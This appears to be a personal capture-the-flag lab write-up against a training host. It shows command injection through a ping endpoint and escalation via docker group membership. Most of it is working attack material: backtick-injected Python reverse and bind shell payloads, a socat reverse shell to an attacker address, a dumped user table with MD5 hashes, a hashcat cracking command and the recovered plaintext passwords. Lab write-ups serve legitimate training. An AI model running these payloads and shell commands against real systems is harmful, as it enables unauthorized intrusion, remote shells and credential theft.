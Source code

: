 # Enumeration

## Port 31331

Robots.txt
http://10.10.255.126:31331/robots.txt

Sitemap:
http://10.10.255.126:31331/utech_sitemap.txt

Login page:
http://10.10.255.126:31331/partners.html

## Port 8081

Dir brute forcing:
- /auth
- /ping

Auth page:
http://10.10.255.126:8081/auth

Ping:
![[Pasted image 20240504174411.png]]

![[Pasted image 20240504174723.png]]

Command Injection vulnerability:
![[Pasted image 20240504175002.png]]
=> Semicolon character is filtered

# Initial foothold

## Exploit idea #1

Write python file *rshell.py* in request 1 and execute it in request 2:
```bash
GET /ping?ip=10.10.255.126`echo+"import+socket,os,pty\ns%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(('10.10.255.126',7777))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\npty.spawn('/bin/sh')"+>+rshell.py` HTTP/1.1
[...]
```

```bash
GET /ping?ip=10.10.255.126`python+rshell.py` HTTP/1.1
[...]
```
=> "socket.error: \[Errno 111] Connection refused"
Looks like we cannot create an outbound connection

## Exploit idea #2

Can we create a bind shell? (Port 4444)
```bash
GET /ping?ip=10.10.255.126`echo+"import+socket,os,subprocess\ns%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.bind(('0.0.0.0',4444))\ns.listen(5)\nc,a%3ds.accept()\nos.dup2(c.fileno(),0)\nos.dup2(c.fileno(),1)\nos.dup2(c.fileno(),2)\np%3dsubprocess.call(['/bin/sh','-i'])"+>+bshell.py` HTTP/1.1
```
Start bind shell:
```bash
GET /ping?ip=10.10.255.126`python+bshell.py` HTTP/1.1
```

Success!
![[Pasted image 20240504190113.png]]

### Create a proper shell

Upload socat (https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) to the target.

On attacker:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:7777
```

On target:
```bash
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.9.0.187:7777
```


## SQLite database

Download SQLite database:
![[Pasted image 20240504190731.png]]

Dump:
![[Pasted image 20240504201127.png]]
```txt
admin|0d0ea5111e3c1def594c1684e3b9be84|0
r00t|f357a0c52799563c7c7b76c1e7543a32|0
```

# PrivEsc

Users:
![[Pasted image 20240504201746.png]]
Interesting users:
- lp1
- r00t

Crack MD5 hashes from sqlite database:
```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
Results:
```bash
f357a0c52799563c7c7b76c1e7543a32:n100906                  
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy
```
=> Creds:
admin:mrsheafy
r00t:n100906

**SSH + FTP login with r00t**

No files hosted on FTP server.

User is in **docker** group:
![[Pasted image 20240504210436.png]]

Privesc via docker group:
![[Pasted image 20240504210305.png]]

Proof:
![[Pasted image 20240504210409.png]]

Private SSH key:
![[Pasted image 20240504210951.png]]
=> last 9 chars: `SO+RAmqo=`